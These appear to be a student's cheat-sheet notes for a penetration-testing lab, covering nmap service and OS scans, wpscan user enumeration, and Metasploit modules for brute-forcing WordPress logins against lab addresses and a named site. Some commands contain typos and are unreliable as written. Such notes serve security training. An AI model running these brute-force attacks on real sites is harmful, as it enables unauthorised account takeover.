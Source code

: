 nmap = https://www.geeksforgeeks.org/nmap-command-in-linux-with-examples/
wpscan = https://www.geeksforgeeks.org/wpscan-tool-in-kali-linux/
hydra = https://www.freecodecamp.org/news/how-to-use-hydra-pentesting-tutorial/


* Find ip address on linux and windows

linux - ifconfig
windows - ipconfig


* Which command allows you to manage user account on a Window computer?
  net user

* what is port of RDP
  3389
  nmap to find out service running on port 3000 for the following ip
  nmap -sV -p 3000 172.16.20.5

* OS running
  nmap -O 172.16.20.5

* wpscan - wordpress

wpscan -url http://dhabal.com
wpsscan -url https://dhabal.com -e u
Bruteforce username/password
wpscan --url http://dhabal.com --usename /Desktop/username.txt --password /Desktop/password.txt
wpscan --url http://dhabal.com -u root --password /Desktop/password.txt

wpscan doesn't work in lab sometimem then use metspoit

* bruteforce users/password using metasploit

msfconsole

When Only user is provided.

use wordpress -> it will show all the modules of wordpress

use auxilliary/scanner/http/wordpress_login_enum
show options
set PASS_FILE /Desktop/password
set RHOST 10.10.1.10
set RPORT 8080
set TARGETURL http://http://10.10.1.10:8080
set USERNAME john
exploit

----------------------
msfconsole

* When Userlist and pwd list is provided

use wordpress -> it will show all the modules of wordpress

use auxilliary/scanner/http/wordpress_login_enum
show options
set URI /wordpress/wp-login.php
set USER_FILE /Desktop/users.txt
set PASS_FILE /Desktop/password.txt
set RHOST 10.10.1.10
run
